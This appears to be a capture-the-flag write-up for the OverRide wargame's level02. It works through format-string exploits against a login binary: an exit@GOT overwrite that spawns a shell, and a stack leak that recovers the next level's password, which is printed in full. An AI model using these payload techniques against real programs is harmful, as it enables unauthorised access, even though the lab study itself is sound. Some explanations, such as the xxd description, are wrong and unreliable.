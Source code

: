 
```asm
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```
```
x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997
```

```
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

**SECOND METHOD




```
(python -c 'print " %p " * 100 + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo

...
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
...

The length of the flag string is 40 so we need 5 * 8 (16/2 hex len)

the value at the 26th position on the stack  
(python -c 'print "%26$p" + "\n" + "AAAA"') | ./level02
0x48336750664b394d

then lets reconstruct our flag

echo "0x756e505234376848" | xxd -r -p | rev
Hh74RPnu


0x756e505234376848 ==> Hh74RPnu
0x45414a3561733951 ==> Q9sa5JAE
0x377a7143574e6758 ==> XgNWCqz7
0x354a35686e475873 ==> sXGnh5J5
0x48336750664b394d ==> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ pwd
/home/users/level02
```

simplified script

```
level02@OverRide:~$ for ((i=1; i<=26; i++)); do (python -c "print '%$i\$p'" && echo) | ./level02 | grep 0x ; done

0x7fffffffe4c0 does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x7fffffffe6b8 does not have access!
0x1f7ff9a08 does not have access!
0x100000000 does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
```

more simplistic syntax

`(python -c 'print "%22$p %23$p %24$p %25$p %26$p" + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo | tail -n 9 | head -n 5`

`python -c "print '756e505234376848'.decode('hex')[::-1] + '45414a3561733951'.decode('hex')[::-1] + '377a7143574e6758'.decode('hex')[::-1] + '354a35686e475873'.decode('hex')[::-1] + '48336750664b394d'.decode('hex')[::-1]"`


********notes

`echo "$i - %$i\$p"`: This command uses the echo command to print a string that includes the current value of i and a format specifier (%$i\$p) that specifies the position of the argument to be printed by the printf function. The $i syntax refers to the current value of the loop variable i, and the backslash before the $ character is used to escape it so that it is interpreted as a literal character.

`echo "0x756e505234376848" | xxd -r -p`
This will pipe the string "0x756e505234376848" to the xxd command, which will convert it from hex to binary format. The -r option tells xxd to reverse the conversion process (from binary back to hex), and the -p option tells xxd to read the input as plain hexadecimal digits (without any whitespace or other formatting). The resulting binary data is then piped to the echo command, which will print it to the console as ASCII text.





